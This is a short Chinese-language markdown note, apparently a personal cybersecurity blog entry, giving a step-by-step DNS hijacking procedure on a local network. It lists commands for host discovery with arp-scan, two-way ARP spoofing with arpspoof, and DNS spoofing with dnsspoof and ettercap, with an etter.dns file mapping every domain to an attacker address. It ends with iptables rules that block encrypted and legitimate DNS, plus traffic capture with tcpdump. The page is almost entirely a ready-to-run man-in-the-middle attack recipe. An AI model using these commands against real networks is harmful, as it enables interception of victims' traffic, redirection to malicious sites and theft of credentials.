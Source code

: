 ```yaml
---
title: DNS劫持
categories:
  - cybersec
description: DNS劫持
date: 2025-03-15 20:26:09
tags:
---
```


# 1.获取 ip mac 地址信息

`ip a` 得到本机 ip 地址  
`ip route` 得到网关地址  
`arp-scan --interface=eth0 --localnet` 扫描统一子网下主机

# 2.ARP劫持（成为中间人）

```bash
arpspoof -i eth0 -t 目标IP -r 网关IP   # 欺骗目标设备 告诉目标主机，网关ip对应的mac地址是攻击机的mac地址
arpspoof -i eth0 -t 网关IP -r 目标IP   # 欺骗网关（双向劫持）
```

# 3.DNS劫持

## 使用 dnsspoof

`dnsspoof -i eth0 -f hosts.txt`

## 使用 ettercap

### 配置域名映射文件

`sudo vim /etc/ettercap/etter.dns`

```etter.dns
httpforever.com A 39.156.66.10
* A 192.168.65.100
```

### 运行命令

`ettercap -T -i eth0 -M arp:remote /受害者IP// /网关IP// -P dns_spoof`

# 其他命令

```bash
iptables -A FORWARD -p tcp --dport 443 -j DROP # 阻断加密 DNS 
iptables -A FORWARD -p udp --dport 53 -d 192.168.65.2 -j DROP # 阻断合法 DNS 

tcpdump -i eth0 host 192.168.65.2 or host 192.168.65.132 # 获取 tcp 流量
echo 1 > /proc/sys/net/ipv4/ip_forward # 开启 IP 转发
```